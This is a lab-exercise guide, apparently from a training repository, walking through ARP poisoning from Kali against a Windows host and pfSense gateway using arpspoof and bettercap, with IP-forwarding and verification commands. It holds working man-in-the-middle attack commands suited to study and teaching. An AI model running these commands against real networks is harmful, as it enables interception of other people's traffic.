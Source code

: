 
# Task 2 — Perform ARP poisoning (lab only)

Goal: poison ARP caches so traffic flows via Kali. (Use only in lab.)

**Important:** enable IP forwarding on Kali so it forwards traffic between victim and gateway:

```bash
sudo sysctl -w net.ipv4.ip_forward=1
# Or persist for session:
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
```

Two common ways:

## A — Using `arpspoof` (from dsniff)

On Kali:

```bash
# Replace <WIN_IP> and <GW_IP> and <iface>
sudo arpspoof -i <iface> -t <WIN_IP> <GW_IP>    # tell WIN that Kali is GW
sudo arpspoof -i <iface> -t <GW_IP>  <WIN_IP>  # tell GW that Kali is WIN
```

Run both (in separate terminals). After these run, Windows and pfSense will believe Kali’s MAC belongs to the other system.

## B — Using Bettercap (recommended modern tool)

A simple bettercap session:

```bash
sudo bettercap -iface <iface> --no-
# inside bettercap interactive:
net.probe on
arp.spoof on
set arp.spoof.targets <WIN_IP>,<GW_IP>
```

Bettercap docs and guides cover switches/features. ([bettercap][1])

**Verify poisoning (live):**
On Windows:

```powershell
arp -a GATEWAY_IP
```

Expected: the MAC for `GATEWAY_IP` should now match Kali’s MAC address.

On pfSense: Diagnostics > ARP Table should show the victim IP with Kali’s MAC (if you poisoned gateway’s cache too). You can also watch arp packets on Kali tcpdump:

```bash
sudo tcpdump -i <iface> arp -n -vv
```


[1]: https://www.bettercap.org/legacy/?utm_source=chatgpt.com "BetterCAP stable documentation"
[2]: https://docs.netgate.com/pfsense/en/latest/monitoring/status/arp.html?utm_source=chatgpt.com "ARP Table | pfSense Documentation"
[3]: https://docs.netgate.com/pfsense/en/latest/packages/snort/setup.html?utm_source=chatgpt.com "Configuring the Snort Package | pfSense Documentation"
[4]: https://forum.netgate.com/topic/17813/snort-and-arp-spoofing?utm_source=chatgpt.com "Snort and arp spoofing"
[5]: https://forum.netgate.com/topic/182399/enable-static-arp-entries-not-working-correctly?utm_source=chatgpt.com "Enable Static ARP entries not working correctly"
[6]: https://www.webasha.com/blog/understanding-man-in-the-middle-attacks-a-step-by-step-guide-using-bettercap?utm_source=chatgpt.com "Understanding Man-in-the-Middle Attacks: A Step-by-Step Guide ..."